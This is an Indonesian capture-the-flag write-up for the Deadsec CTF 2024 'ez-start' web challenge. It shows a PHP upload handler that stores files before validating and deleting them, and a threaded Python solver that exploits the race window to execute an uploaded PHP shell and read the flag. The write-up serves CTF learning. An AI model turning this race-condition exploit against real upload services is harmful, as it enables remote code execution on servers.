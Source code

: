 # ez-start - Web - Deadsec CTF 2024
Pada challenge kali ini, kita dihadapkan dengan fitur upload, yang hanya mengizinkan `jpg, png, jpeg, dan gif`. namun kita tidak perlu terlalu memerhatikan extensi dari file, karena apapun file yang kita upload, file akan tetap terupload.

Kita akan memanfaatkan kerentanan `Race Condition` untuk membaca file flag.txt, saat file terupload dan pengecekan `is_malware` dan `is_image` terdapat rentang waktu dimana file `shell` kita bisa dieksekusi. dengan memanfaatkan `Race Condition`, kita bisa mengeksekusi file shell php kita dan membaca flag.

## Source Code
```php
<?php

session_start();

function is_malware($file_path)
{
    $content = file_get_contents($file_path);
    
    if (strpos($content, '<?php') !== false) {
        return true; 
    }
    
    return false;
}

function is_image($path, $ext)
{
    // Define allowed extensions
    $allowed_extensions = ['png', 'jpg', 'jpeg', 'gif'];
    
    // Check if the extension is allowed
    if (!in_array(strtolower($ext), $allowed_extensions)) {
        return false;
    }
    
    // Check if the file is a valid image
    $image_info = getimagesize($path);
    if ($image_info === false) {
        return false;
    }
    
    return true;
}

if (isset($_FILES) && !empty($_FILES)) {

    $uploadpath = "tmp/";
    
    $ext = pathinfo($_FILES["files"]["name"], PATHINFO_EXTENSION);
    $filename = basename($_FILES["files"]["name"], "." . $ext);

    $timestamp = time();
    $new_name = $filename . '_' . $timestamp . '.' . $ext;
    $upload_dir = $uploadpath . $new_name;

    if ($_FILES['files']['size'] <= 10485760) {
        move_uploaded_file($_FILES["files"]["tmp_name"], $upload_dir);
    } else {
        echo $error2 = "File size exceeds 10MB";
    }

    if (is_image($upload_dir, $ext) && !is_malware($upload_dir)){
        $_SESSION['context'] = "Upload successful";
    } else {
        $_SESSION['context'] = "File is not a valid image or is potentially malicious";
    }
    
    echo $upload_dir;
    unlink($upload_dir);
}

?>
```

Pada kode diatas, file yang kita upload akan disimpan dengan format `shell_{timestamp}.php`, kita tidak perlu memedulikan terkait `is_image` dan `is_malware`, karena apapun yang kita upload file akan disimpan di `/tmp` lalu di hapus. namun terdapat rentang waktu saat file di upload `move_uploaded_file();` dan penghapusan file `unlink($upload_dir);`. kita bisa memanfaatkan rentang waktu yang singkat tersebut untuk mengeksekusi `shell.php` sebelum file terhapus.

## Solver Code
```python
import httpx
import datetime
import threading
import os
import re

URL = 'https://5ff5201cf17538a49389c48c.deadsec.quest'
max_threads = 50

class BaseAPI:
    def __init__(self, url=URL):
        self.c = httpx.Client(base_url=url)

    def access_file(self, timestamp):
        file_name = f'/tmp/shell_{int(timestamp)}.php'
        response = self.c.get(file_name)
        res = response.text
        flag = re.findall(r"DEAD{.*}", res)
        if flag:
            print(f'here\'s ur flag {flag}')
            os.kill(os.getpid(), 9)

    def upload(self):
        with open('shell.php', 'rb') as file:
            files = {'files': ('shell.php', file, 'application/x-php')}
            response = self.c.post('/upload.php', files=files)

if __name__ == "__main__":
    api = BaseAPI()

    for i in range(50000):
        current_timestamp = int(datetime.datetime.now().timestamp())
        t1 = threading.Thread(target=api.access_file, args=(current_timestamp,))
        t2 = threading.Thread(target=api.upload)
        t1.start()
        t2.start()
        if threading.active_count() > max_threads:
            t1.join()
            t2.join()
            print('max_threads reached')
```
Thankyou